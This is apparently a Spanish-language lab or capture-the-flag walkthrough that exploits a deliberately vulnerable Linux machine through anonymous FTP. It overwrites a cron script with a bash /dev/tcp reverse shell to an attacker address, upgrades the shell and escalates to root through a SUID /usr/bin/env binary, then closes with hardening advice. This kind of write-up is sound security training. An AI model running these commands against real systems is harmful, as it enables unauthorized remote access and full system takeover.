 # Este repositorio documenta el proceso de explotación de una máquina Linux vulnerable que permite acceso anónimo por FTP, leading to remote code execution (RCE) y escalada de privilegios mediante binarios SUID.

## 1. Objetivos
  -  Demostrar los riesgos de habilitar FTP Anonymous.

  -  Explotar un script malicioso para ganar acceso inicial.

  -  Escalar privilegios abusando de permisos SUID.

## 2.  Audiencia
  -  🛡️ Pentesters y entusiastas de seguridad que buscan practicar:

  -  Enumeración de servicios.

  -  Manipulación de archivos vía FTP.

  -  Técnicas de post-explotación (TTY, PrivEsc).

##  Advertencia
  -  ⚠️ Úsalo solo en entornos autorizados. La explotación no consentida es ilegal.

# **Explotación de Máquina Linux vía FTP Anonymous**  

**Nivel de Dificultad**: Fácil  
**Técnicas usadas**: FTP Anonymous, Manipulación de Scripts, Reverse Shell, Escalada de Privilegios (SUID)  

---

## **Descubrimiento y Enumeración**  

### **1. Escaneo Inicial con Nmap**  
Identificamos los servicios expuestos en la máquina objetivo (`10.0.2.9`):  
```bash
nmap -sV -p- --min-rate 5000 -n -Pn 10.0.2.9 -oN nmap_scan
```  
**Resultados clave**:  
- **Puerto 21/tcp (FTP)**: Servicio **vsftpd** con acceso **Anonymous** habilitado.  

---

## **Explotación del FTP Anonymous**  

### **2. Conexión al Servicio FTP**  
Accedemos sin credenciales (usuario `anonymous`):  
```bash
ftp 10.0.2.9
```  
- **Usuario**: `anonymous`  
- **Contraseña**: (cualquier texto o vacío).  

### **3. Enumeración de Archivos**  
Listamos directorios y encontramos un script sospechoso:  
```bash
ls -la
cd scripts
get clean.sh  # Descargamos el archivo para analizarlo.
```  

### **4. Análisis del Script `clean.sh`**  
Inspeccionamos su contenido:  
```bash
cat clean.sh
```  
**Contenido original**:  
```bash
#!/bin/bash
rm -rf /tmp/logs/*  # Elimina logs temporales.
```  

### **5. Inyección de Reverse Shell**  
Modificamos `clean.sh` para incluir un payload de conexión reversa:  
```bash
echo "bash -i >& /dev/tcp/10.0.2.4/4444 0>&1" > clean.sh
```  

### **6. Subida del Archivo Malicioso**  
Sobrescribimos el script en el servidor:  
```bash
put clean.sh
```  

---

## **Ganando Acceso Inicial**  

### **7. Escucha con Netcat**  
Preparamos una sesión en nuestra máquina para recibir la shell:  
```bash
nc -lvnp 4444
```  

### **8. Ejecución Remota del Script**  
- Si el script se ejecuta automáticamente (ej: tarea cron), obtendremos shell.  
- Si no, esperamos a que un administrador lo ejecute manualmente.  

**¡Shell obtenida!**  

---

## **Post-Explotación**  

### **9. Mejora de la Shell**  
Convertimos la shell en interactiva:  
```bash
script /dev/null -c bash
Ctrl + Z  # Segundo plano
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```  

### **10. Escalada de Privilegios (SUID)**  

#### **Búsqueda de Binarios Vulnerables**  
```bash
find / -perm -4000 2>/dev/null
```  
**Resultado sospechoso**:  
- `/usr/bin/env` (permite ejecución arbitraria).  

#### **Explotación con `env`**  
Ejecutamos una shell como **root**:  
```bash
/usr/bin/env /bin/sh -p
```  
**¡Somos root!**  

---

## **Recolección de Flags**  

- **Flag de usuario**:  
  ```bash
  cat /home/usuario/user.txt
  ```  
- **Flag de root**:  
  ```bash
  cat /root/root.txt
  ```  

---

## **Conclusión y Recomendaciones**  

### **Vulnerabilidades Explotadas**  
1. **FTP Anonymous**: Permitió subir un script malicioso.  
2. **Tarea Cron o Ejecución Manual**: Ejecutó el payload.  
3. **Binario SUID (`/usr/bin/env`)**: Permitió escalar a root.  

### **Recomendaciones de Seguridad**  
✅ **Deshabilitar FTP Anonymous** en `/etc/vsftpd.conf`:  
   ```ini
   anonymous_enable=NO
   ```  
✅ **Restringir permisos SUID** innecesarios:  
   ```bash
   chmod -s /usr/bin/env
   ```  
✅ **Monitorear tareas Cron** y scripts automatizados.  

---

## **Referencias**  
- [GTFOBins: env](https://gtfobins.github.io/gtfobins/env/)  
- [Nmap Cheat Sheet](https://nmap.org/book/man.html)  
